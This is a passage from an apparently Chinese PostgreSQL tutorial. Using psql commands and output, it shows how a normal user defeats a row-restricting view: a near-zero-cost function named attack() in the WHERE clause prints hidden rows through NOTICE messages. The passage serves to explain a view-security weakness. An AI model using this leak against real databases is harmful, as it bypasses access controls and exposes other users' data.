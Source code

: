 分配视图的查询权限给普通用户  
  
```  
digoal=> \c digoal postgres  
You are now connected to database "digoal" as user "postgres".  
digoal=# grant select on v_userinfo to digoal;  
GRANT  
```  
  
现在普通用户不能直接访问表, 但是可以访问视图了.  
  
```  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> select * from userinfo ;  
ERROR:  permission denied for relation userinfo  
```  
  
看起来普通用户只能访问groupid=2的数据.  
  
```  
digoal=> select * from v_userinfo ;  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  4 |       2 | test     | 1000 | 土星 | digoal@126.com | 11999999999  
(1 row)  
```  
  
但是利用以下方法, 欺骗rule, 得到不应该看到的数据.  
  
```  
digoal=> create or replace function attack(int,int,text,int,text,text,text) returns boolean as $$  
declare  
begin  
  raise notice '%,%,%,%,%,%,%', $1,$2,$3,$4,$5,$6,$7;  
  return true;  
end;  
$$ language plpgsql cost 0.00000000000000000000001;  
CREATE FUNCTION  
digoal=> select * from v_userinfo where attack(id,groupid,username,age,addr,email,phone);  
NOTICE:  1,1,digoal,1000,杭州西湖区,digoal@126.com,13999999999  
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999  
NOTICE:  3,1,test,1000,月球,digoal@126.com,11999999999  
NOTICE:  4,2,test,1000,土星,digoal@126.com,11999999999  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  4 |       2 | test     | 1000 | 土星 | digoal@126.com | 11999999999  
(1 row)  
```  
  
从以上结果可以看到, 本来不应该看到的groupid=1的数据也被打印出来了.  
  
而且执行计划并没有什么异样.  
  
```  
digoal=> explain (analyze,verbose,costs,buffers,timing) select * from v_userinfo where attack(id,groupid,username,age,addr,email,phone);  
NOTICE:  1,1,digoal,1000,杭州西湖区,digoal@126.com,13999999999  
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999  
NOTICE:  3,1,test,1000,月球,digoal@126.com,11999999999  
NOTICE:  4,2,test,1000,土星,digoal@126.com,11999999999  
                                                                          QUERY PLAN                                                  
                            
------------------------------------------------------------------------------------------------------------------------------------  
--------------------------  
 Seq Scan on public.userinfo  (cost=0.00..16.00 rows=1 width=140) (actual time=0.090..0.091 rows=1 loops=1)  
```